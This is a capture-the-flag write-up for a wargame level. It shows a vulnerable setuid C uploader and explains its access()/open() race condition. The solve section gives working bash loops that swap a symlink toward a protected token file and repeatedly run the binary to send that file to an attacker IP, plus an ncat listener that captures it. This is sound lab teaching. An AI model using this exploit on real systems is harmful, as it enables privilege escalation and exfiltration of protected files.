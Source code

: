 # username / password
level10 / level10
# objective
* The setuid binary at /home/flag10/flag10 binary will upload any file given, as long as it meets the requirements of the access() system call.
* To do this level, log in as the level10 account with the password level10. Files for this level can be found in /home/flag10.
```
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>

int main(int argc, char **argv)
{
  char *file;
  char *host;

  if(argc < 3) {
      printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
      exit(1);
  }

  file = argv[1];
  host = argv[2];

  if(access(argv[1], R_OK) == 0) {
      int fd;
      int ffd;
      int rc;
      struct sockaddr_in sin;
      char buffer[4096];

      printf("Connecting to %s:18211 .. ", host); fflush(stdout);

      fd = socket(AF_INET, SOCK_STREAM, 0);

      memset(&sin, 0, sizeof(struct sockaddr_in));
      sin.sin_family = AF_INET;
      sin.sin_addr.s_addr = inet_addr(host);
      sin.sin_port = htons(18211);

      if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
          printf("Unable to connect to host %s\n", host);
          exit(EXIT_FAILURE);
      }

#define HITHERE ".oO Oo.\n"
      if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
          printf("Unable to write banner to host %s\n", host);
          exit(EXIT_FAILURE);
      }
#undef HITHERE

      printf("Connected!\nSending file .. "); fflush(stdout);

      ffd = open(file, O_RDONLY);
      if(ffd == -1) {
          printf("Damn. Unable to open file\n");
          exit(EXIT_FAILURE);
      }

      rc = read(ffd, buffer, sizeof(buffer));
      if(rc == -1) {
          printf("Unable to read from file: %s\n", strerror(errno));
          exit(EXIT_FAILURE);
      }

      write(fd, buffer, rc);

      printf("wrote file!\n");

  } else {
      printf("You don't have access to %s\n", file);
  }
}
  ```
# concept
* race conditions
* the code for the SUID binary checks if the permissions for the file are valid or not
```
if(access(argv[1], R_OK) == 0)
```
* but the code that sends the contents of the file are located several lines down
```
ffd = open(file, O_RDONLY);
```
# method of solve
* we need to create a script that creates a file that we have permission to send (dummy file)
* we need to create a symbolic link that points to the dummy file
* we need to create a loop which constantly switches the symbolic between the dummy file and the file that we actually want to access (token file)
```
#!/bin/bash
# Create a file you have read access to
echo "dummy" > /tmp/readable.txt

# In one terminal, run this loop to constantly swap the symlink
while true; do
    ln -sf /tmp/readable.txt /tmp/racefile
    ln -sf /home/flag10/token /tmp/racefile  # Target file you want to read
done
```
* We need to run another script that constantly runs the SUID binary over and over again
```
#!/bin/bash
while true; do
    /home/flag10/flag10 /tmp/racefile 10.0.2.87
done
```
* We need to setup a listener on our attacker machine which records all the information that is being sent:
```
ncat -l -k -p 18211 >> testing.txt < /dev/null
```

